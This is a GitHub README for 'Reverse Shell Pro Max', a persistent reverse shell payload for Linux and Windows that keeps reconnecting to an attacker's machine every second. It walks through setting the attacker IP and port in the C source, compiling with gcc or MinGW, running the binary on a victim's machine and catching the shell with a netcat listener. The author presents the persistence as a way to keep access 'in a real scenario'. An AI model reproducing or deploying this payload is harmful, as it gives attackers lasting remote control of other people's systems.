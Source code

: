 # Reverse Shell Pro Max (Project_RSPM)

**Reverse Shell Pro Max (RSPM)** is a persistent reverse shell payload designed to provide continuous, automatic reverse shell connections to an attacker’s machine. Unlike traditional reverse shell tools like **msfvenom**, which only provide a one-time connection, **RSPM** keeps attempting to reconnect every second if the connection is lost, ensuring reliable access for attackers.

---

## Project Structure

The repository is structured as follows:


- **Project_RSPM_UNIX**: Contains C code designed to work on **Linux** systems.
- **Project_RSPM_WIN**: Contains C code designed to work on **Windows** systems.

---

## Features

- **Persistent Connection**: Continuously sends connection requests every second until successful.
- **Automatic Reconnection**: If the connection drops, the reverse shell payload automatically attempts to reconnect.
- **Target Specific IP and Port**: Easily change the IP and port where the reverse shell connects.
- **Works on Linux and Windows**: Separate codebases for each platform, with instructions for compiling and running.

---

## Installation and Usage

### 1. **Linux**

#### Step 1: Modify IP and Port
- Open the C file (`reverse_shell_6th_try_somehow_working.c`) located in the **Project_RSPM_UNIX** folder.
- Modify the `IP` and `PORT` to match the attacker's machine IP and desired port.

    ```c
    #define IP "192.168.100.215" // Replace with your attacker's IP
    #define PORT 4444            // Replace with your desired port
    ```

#### Step 2: Compile the C Code
- Compile the C code using `gcc`:

    ```bash
    gcc -o reverse_shell reverse_shell_6th_try_somehow_working.c
    ```

#### Step 3: Run the Payload
- Run the compiled reverse shell executable on the victim machine:

    ```bash
    ./reverse_shell
    ```

#### Step 4: Listen for Connections
- On your attacker's machine, use `nc` or another listening tool to catch the reverse shell connection:

    ```bash
    nc -lvnp 4444
    ```

---

### 2. **Windows**

#### Step 1: Modify IP and Port
- Open the C file (`reverse_shell_3rd_try_somehow_working.c`) located in the **Project_RSPM_WIN** folder.
- Modify the `IP` and `PORT` to match the attacker's machine IP and desired port.

    ```c
    #define IP "192.168.100.215" // Replace with your attacker's IP
    #define PORT 4444            // Replace with your desired port
    ```

#### Step 2: Install MinGW
- Install MinGW for compiling C code on Windows. If you don't have it installed, use the following command:

    ```bash
    sudo apt install mingw-w64
    ```

#### Step 3: Compile the C Code for Windows
- Compile the C file using the MinGW cross-compiler:

    ```bash
    x86_64-w64-mingw32-gcc reverse_shell_3rd_try_somehow_working.c -o reverse_shell.exe -lws2_32 -mwindows
    ```

#### Step 4: Run the Payload
- Run the compiled executable on the victim’s Windows machine:

    ```bash
    ./reverse_shell.exe
    ```

#### Step 5: Listen for Connections
- On the attacker's machine, listen for the reverse shell connection:

    ```bash
    nc -lvnp 4444
    ```

---

## Contributing

Feel free to open an issue or submit a pull request for improvements or new features. Contributions are welcome!

---

## Incomplete...

This project is incomplete and i made it as i am just a starter to code in c and its somehow working but hope some experienced c programmer will modify it or contribute here...

## ScriptKiddy -> TheGreen
Just random thought came to my mind while using msfvenom payload that if we are disconnected mistakenly, then we have to re-run the payload on the victim's machine. In testing, it's fine, but in a real scenario, it's simply not possible to re-run the payload or something like that situation may occur. I thought about this and I don't know if something like this is already available on GitHub or somewhere on the internet, but this repo is just a ScriptKiddy thought and made so that after running it once, we can connect to it whenever we want. If we are connected, it doesn't send the connection request, and if disconnected, it starts sending the connection request every second and loop...
